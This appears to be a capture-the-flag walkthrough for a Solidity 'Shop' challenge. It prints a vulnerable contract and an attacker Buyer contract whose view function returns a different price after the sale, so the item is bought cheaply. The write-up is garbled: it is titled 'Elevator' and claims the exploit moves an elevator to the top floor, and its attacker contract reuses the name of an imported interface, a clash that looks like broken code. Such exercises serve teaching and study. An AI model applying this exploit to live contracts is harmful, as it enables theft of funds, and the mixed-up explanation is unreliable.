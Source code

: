 # Elevator

## Challenge Description

Сan you get the item from the shop for less than the price asked?

##### Things that might help:

-   `Shop` expects to be used from a `Buyer`
-   Understanding restrictions of view functions

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint);
}

contract Shop {
    uint public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

## Challenge Solution Walkthrough

In this challenge, we exploit the `Shop` contract by creating our own `Buyer` contract with a modified `price()` function. By controlling the behavior of `price()`, we can bypass the condition in the `Shop` contract and move the elevator to the top floor.

Here's an example implementation of the `Buyer` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract Buyer {
    Shop public shop;

    constructor(address shopAddress) {
        shop = Shop(shopAddress);
    }

    function price() public view returns (uint256) {
        if (shop.isSold() == false) {
            return 100; // Return a price of 100 when the product is not sold
        } else {
            return 0; // Return a price of 0 when the product is sold
        }
    }

    function solveChallenge() public {
        shop.buy(); // Call the buy() function of the Shop contract
    }
}
```

The `Buyer` contract has a `solveChallenge()` function that calls the `buy()` function of the `Shop` contract.

Inside the `Buyer` contract, we implement our own `price()` function. This function checks if the product is sold or not by calling the `isSold()` function of the `Shop` contract. If the product is not sold, it returns a price of `100`. This allows us to pass the condition in the `Shop` contract and proceed with the purchase. However, if the product is already sold, our `price()` function returns `0`, effectively bypassing the condition in the `Shop` contract and allowing us to buy the product for free.

By executing the `solveChallenge()` function of the `Buyer` contract, we trigger the modified `price()` function and exploit the vulnerability in the `Shop` contract. As a result, we can successfully move the elevator to the top floor without paying for the product.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
